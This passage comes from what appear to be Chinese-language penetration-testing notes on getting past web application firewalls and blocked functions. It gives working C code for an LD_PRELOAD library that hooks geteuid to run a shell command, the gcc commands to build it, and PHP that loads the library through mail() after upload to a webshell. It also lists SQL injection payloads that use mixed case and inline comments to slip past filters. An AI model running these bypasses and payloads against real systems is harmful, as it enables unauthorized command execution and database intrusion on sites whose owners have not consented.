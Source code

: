   * （2）特殊文件访问拦截绕过
    问题：拦截特殊后缀的文件访问，例如xxx.sql或者是xxx.mdb
    * 解决方法：
      * 修改后缀加入垃圾字符搭配匹配规则
      * 加入垃圾字符超过拦截长度，绕过防御
      * 文件解析，目录解析绕过
    
  * （3）命令执行函数被禁绕过
    * 解决方法：
    编写hack.c
    ```c
    #include <stdlib.h>
    #include <stdio.h>
    #include <string.h> 
    void payload() {
        system("rm /tmp/check.txt");
    }   
    int  geteuid() {
    if (getenv("LD_PRELOAD") == NULL) { return 0; }
    unsetenv("LD_PRELOAD");
    payload();
    }
    ```
    ```bash
    $ gcc -c -fPIC hack.c -o hack 
    $ gcc -shared hack -o hack.so
    ```
    
    再上传到webshell上，然后写一段简单的php代码：
    ```php
    <?php
    putenv("LD_PRELOAD=/var/www/hack.so");
    mail("a@localhost","","","","");
    ?>
    ```
    在浏览器中打开就可以执行它，然后再去检查新建的文件是否还存在，找不到文件则表示系统成功执行了删除命令，也就意味着绕过成功，测试中注意修改为实际路径。
    
  * （4）访问受限绕过***********


* **注入漏洞绕过waf**
  * （1）大小写变种
    使用起来最简单，效果现在来说不太显著
    比如：
    ```
    and 1=2
    AnD 1=3
    ```
    
  * （2）使用SQL注释
    使用起来简单，效果一般
    ```sql
    union select 1,2,3,4,5,5 from admin
    ```
    注释完：
    ```sql
    /**/union/**/select/**/1,2,3,4,5,5 from admin
    /**/un/**/io/**/n/**/sel/**/ec/**/t/**/1,2,3,4,5,5 from admin
    ```
    第二种注释
    ```sql
    /*!and*/ 1=2  效果显著
    ```
    
